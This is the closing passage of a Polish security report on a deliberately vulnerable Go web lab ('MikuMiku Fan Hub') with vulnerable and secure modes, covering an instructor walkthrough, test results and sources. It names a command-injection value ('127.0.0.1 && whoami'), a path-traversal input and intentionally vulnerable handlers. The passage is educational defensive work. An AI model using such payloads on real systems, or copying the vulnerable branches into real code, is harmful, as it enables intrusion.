| AC-08 | Stream check | `127.0.0.1 && whoami` wykonuje dodatkowe polecenie. | Payload z metaznakami jest odrzucony. | Spełnione |

Najważniejsze kryterium architektoniczne dotyczy `/ui/profile`. W poprzedniej wersji można było błędnie zinterpretować projekt jako dwa osobne formularze: podatny i bezpieczny. Po zmianie endpoint `/ui/profile` jest jedną funkcją, a `ProfileSettings()` wybiera ścieżkę na podstawie aktualnego trybu. Dzięki temu atak i poprawka dotyczą tej samej funkcjonalności.

### Przykład testu akceptacyjnego dla profilu

```go
func (h *Handler) ProfileSettings() gin.HandlerFunc {
    return func(c *gin.Context) {
        if h.securityEnabled() {
            h.CsrfSecureForm()(c)
            return
        }
        h.CsrfFormVulnerable()(c)
    }
}
```

Test integracyjny potwierdza trzy warunki:

1. W trybie vulnerable `POST /ui/profile` bez tokena zmienia email.
2. W trybie secure `POST /ui/profile` bez tokena zwraca `403 Forbidden`.
3. W trybie secure legalny formularz z tokenem nadal pozwala zmienić email.

To rozróżnienie jest ważne dydaktycznie. Celem nie jest zablokowanie funkcji profilu, tylko pokazanie, że ta sama funkcja może być napisana naiwnie albo poprawnie.

## Załącznik H: scenariusz omówienia dla prowadzącego

Scenariusz weryfikacji powinien być prowadzony w jednej narracji produktowej. Proponowany wstęp: "to jest fanowski portal MikuMiku Fan Hub; przejdziemy przez jego zwykłe funkcje i pokażemy, gdzie błędne decyzje implementacyjne tworzą podatności".

### Etap 1 - kontekst aplikacji

1. Otworzyć `/ui/posts`.
2. Pokazać, że aplikacja ma posty, komentarze, profil, bibliotekę, członków i narzędzia społecznościowe.
3. Wskazać przełącznik trybu bezpieczeństwa.
4. Wyjaśnić, że tryb vulnerable i secure korzystają z tego samego kodu aplikacji, ale innych gałęzi walidacji.

### Etap 2 - ataki z poziomu użytkownika

1. W `Library` wpisać payload SQLi i pokazać nienaturalny wynik.
2. W komentarzu pod postem zapisać payload XSS i pokazać renderowanie.
3. W `Profile` wykonać sfałszowany POST CSRF.
4. W `Moderation` spróbować usunąć cudzy post.
5. W `Fanart vault` użyć `../README.md`.
6. W `Stream check` użyć `127.0.0.1 && whoami`.

### Etap 3 - ten sam przebieg w secure

Po przełączeniu secure należy powtórzyć dokładnie te same payloady. Ten krok potwierdza, że poprawka nie polega na ukryciu formularza albo zmianie adresu URL, tylko na naprawie interpretacji danych po stronie serwera.

### Etap 4 - powiązanie z kodem

Po części UI warto pokazać krótko cztery fragmenty kodu:

- routing w `main.go`, gdzie `/ui/profile` prowadzi do `ProfileSettings()`;
- handler CSRF w `internal/handlers/handlers.go`;
- różnicę między SQL z konkatenacją i SQL parametryzowanym;
- różnicę między `sh -c` i `exec.Command` bez powłoki.

### Etap 5 - testy

Na końcu należy pokazać wynik:

```bash
go test ./...
go test -tags=integration -count=1 -v .
```

Wynik `PASS` potwierdza, że opis raportowy, kod i zachowanie aplikacji są spójne.

## Testy i weryfikacja

Wykonano następujące kontrole:

| Kontrola | Wynik |
|---|---|
| `templ generate` | zakończone sukcesem |
| `go test ./...` | zakończone sukcesem |
| `go build -o /private/tmp/bai-feature-check main.go` | zakończone sukcesem |
| Screenshoty UI przez Playwright | wygenerowane |
| Kontrola screenshotów | sprawdzone, przycięte i dopasowane do raportu |
| OWASP ZAP baseline scan w Dockerze | zakończone, 60 URL, 14 ostrzeżeń, 0 nowych błędów krytycznych |

W ramach weryfikacji uruchomiono także pełny zestaw testów integracyjnych:

```bash
go test -tags=integration -count=1 -v .
```

Wynik: `PASS`. Testy obejmują między innymi SQL Injection, Stored XSS, Path Traversal, Command Injection, autoryzację usuwania postów, cookies sesyjne oraz CSRF. Dodano również test potwierdzający, że `/ui/profile` jest jedną funkcją: w trybie vulnerable przyjmuje sfałszowany POST bez tokena, a w trybie secure ten sam POST zostaje odrzucony.

## Literatura i źródła

1. OWASP Foundation, **OWASP Top 10:2021**, https://owasp.org/Top10/2021/, dostęp: 29.05.2026.
2. OWASP Cheat Sheet Series, **SQL Injection Prevention Cheat Sheet**, https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html, dostęp: 29.05.2026.
3. OWASP Web Security Testing Guide, **Testing for SQL Injection - WSTG-INPV-05**, https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection, dostęp: 29.05.2026.
4. PortSwigger Web Security Academy, **SQL injection UNION attacks**, https://portswigger.net/web-security/sql-injection/union-attacks, dostęp: 29.05.2026.
5. sqlmap project, **Usage documentation**, https://github.com/sqlmapproject/sqlmap/wiki/Usage, dostęp: 29.05.2026.
6. MITRE, **CWE-89: Improper Neutralization of Special Elements used in an SQL Command**, https://cwe.mitre.org/data/definitions/89.html, dostęp: 29.05.2026.
7. MITRE, **CWE-79: Improper Neutralization of Input During Web Page Generation**, https://cwe.mitre.org/data/definitions/79.html, dostęp: 29.05.2026.
8. MITRE, **CWE-352: Cross-Site Request Forgery**, https://cwe.mitre.org/data/definitions/352.html, dostęp: 29.05.2026.
9. MITRE, **CWE-22: Improper Limitation of a Pathname to a Restricted Directory**, https://cwe.mitre.org/data/definitions/22.html, dostęp: 29.05.2026.
10. MITRE, **CWE-78: Improper Neutralization of Special Elements used in an OS Command**, https://cwe.mitre.org/data/definitions/78.html, dostęp: 29.05.2026.
11. N. Provos, D. Mazières, **A Future-Adaptable Password Scheme**, USENIX Annual Technical Conference 1999, https://www.usenix.org/conference/1999-usenix-annual-technical-conference/future-adaptable-password-scheme, dostęp: 29.05.2026.
12. W. G. J. Halfond, J. Viegas, A. Orso, **A Classification of SQL-Injection Attacks and Countermeasures**, ISSSE 2006, DOI: 10.1109/ASWEC.2006.40.
13. M. Liu, K. Li, T. Chen, **DeepSQLi: Deep Semantic Learning for Testing SQL Injection**, arXiv:2005.11728, https://arxiv.org/abs/2005.11728, dostęp: 29.05.2026.
14. HTTPie, **HTTPie documentation**, https://httpie.io/docs, dostęp: 30.05.2026.
15. OWASP Foundation, **Web Security Testing Guide - Testing for Path Traversal**, https://owasp.org/www-project-web-security-testing-guide/, dostęp: 30.05.2026.
16. OWASP ZAP, **ZAP Docker Documentation**, https://www.zaproxy.org/docs/docker/, dostęp: 30.05.2026.
17. OWASP ZAP, **ZAP Baseline Scan**, https://www.zaproxy.org/docs/docker/baseline-scan/, dostęp: 30.05.2026.
18. J. Clarke-Salt, **SQL Injection Attacks and Defense**, 2nd edition, Syngress, 2012.

## Wnioski i dalsze rekomendacje

Projekt spełnia założenie porównania podatnej i zabezpieczonej aplikacji w ramach jednego, spójnego systemu. Podatności są widoczne w funkcjach, które mają normalne zastosowanie: wyszukiwarka, komentarze, logowanie, profil, moderacja, katalog członków, podgląd plików i diagnostyka hosta. Dzięki temu test bezpieczeństwa polega na użyciu zwykłej funkcji w sposób pokazujący błąd implementacyjny.

Najważniejszy przypadek, SQL Injection, pokazano w pełnym przebiegu ręcznym oraz narzędziowym. Ręczny atak wyjaśnia, dlaczego konkatenacja SQL jest błędna, jak dobrać liczbę kolumn, jak użyć `UNION SELECT`, jak odczytać `sqlite_master`, jak wyciągnąć użytkowników i jak przejść do ukrytych draftów. Test `sqlmap` potwierdza, że podatność jest rozpoznawalna z zewnątrz bez znajomości kodu źródłowego. Tryb secure blokuje oba podejścia przez parametryzację zapytań.

Najważniejsze rekomendacje dalszej pracy:

- Dodać testy integracyjne dla nowych aliasów `/ui/library`, `/ui/profile`, `/ui/gallery`, `/ui/stream-check`, `/ui/moderation` i `/ui/members`.
- Dodać kontrolę typu pliku i rozszerzeń w uploadzie fanartów.
- Dodać limity rozmiaru odpowiedzi dla podglądu pliku, aby LFI nie zalało UI dużym plikiem.
- Dodać role moderator/admin do osobnych middleware, zamiast rozpraszać warunki w handlerach.
- Dodać politykę CSP jako dodatkową warstwę ograniczającą skutki XSS.
- Dodać audit log dla akcji moderacyjnych i zmian profilu.
- Rozdzielić mechanizm labowy od kodu produkcyjnego flagą build/runtime, żeby w realnym wdrożeniu nie dało się przypadkowo wystartować w trybie vulnerable.
